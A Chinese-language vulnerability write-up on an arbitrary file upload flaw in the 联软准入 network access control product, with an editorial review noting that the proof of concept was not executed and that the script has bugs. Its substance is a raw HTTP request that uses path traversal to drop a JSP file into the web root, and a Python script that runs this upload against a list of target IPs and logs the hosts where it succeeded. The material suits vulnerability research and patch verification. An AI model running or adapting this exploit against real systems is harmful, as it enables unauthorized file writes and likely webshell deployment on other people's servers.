


# 联软准入 任意文件上传漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：联软准入
- 本文讨论：uploadfileToPath.htm路径上传
- 版本、权限与配置前提：无Cookie样例，Tomcat相对目录；需本地111.txt/ip.txt，版本未列
- 资料类型：上传请求与检测代码；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 简介/影响空；JSP内容aaaaa只证明落盘不证明执行
- 脚本首URL未strip行末换行，空行pass后仍调用main；111.txt内容未给却匹配xxx
- 仅HTTP代理默认8080会改变环境依赖，成功判据没有关联随机内容
- 同629请求品牌异名待核

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 版本、JSP执行及品牌关系待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

    POST /uai/download/uploadfileToPath.htm HTTP/1.1
    Host: www.0-sec.org:8099
    User-Agent: python-requests/2.22.0
    Accept-Encoding: gzip, deflate
    Accept: */*
    Connection: close
    Content-Length: 308
    Content-Type: multipart/form-data; boundary=ea8ef2c3b016cd152a651d2799ef2c5c

    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="input_localfile"; filename="111.jsp"
    Content-Type: text/plain

    aaaaa
    --ea8ef2c3b016cd152a651d2799ef2c5c
    Content-Disposition: form-data; name="uploadpath";

    ../webapps/notifymsg/devreport/
    --ea8ef2c3b016cd152a651d2799ef2c5c--

上传路径：

`https://www.0-sec.org/notifymsg/devreport/111.jsp`

### poc

> poc.py

    import requests

    def main(line):
        proxies = {'http': 'http://localhost:8080'}
        # url = 'https://www.0-sec.org/uai/download/uploadfileToPath.htm'
        url = line + '/uai/download/uploadfileToPath.htm'
        url_2 = line.strip() + '/notifymsg/devreport/{}'
        filename = '111.txt'
        files = {
            'input_localfile': (filename, open(filename), 'text/plain'),
        }
        content = {
            'uploadpath': '../webapps/notifymsg/devreport/'
        }
        res = requests.post(url, files=files, proxies=proxies, data=content, verify=False)
        # print(res.text)
        res_2 = requests.get(url_2.format(filename), verify=False)
        if 'xxx' in res_2.text:
            print('ok....')
            with open('ok.txt', mode='a') as f:
                f.write(url_2.format(filename) + '\n')
                print('写入成功...')

    if __name__ == '__main__':
        with open('ip.txt', mode='r') as f:
            for line in f.readlines():
                if line == '\n':
                    pass
                main(line)

参考链接
--------

> https://blog.csdn.net/m0\_48520508/article/details/108790281
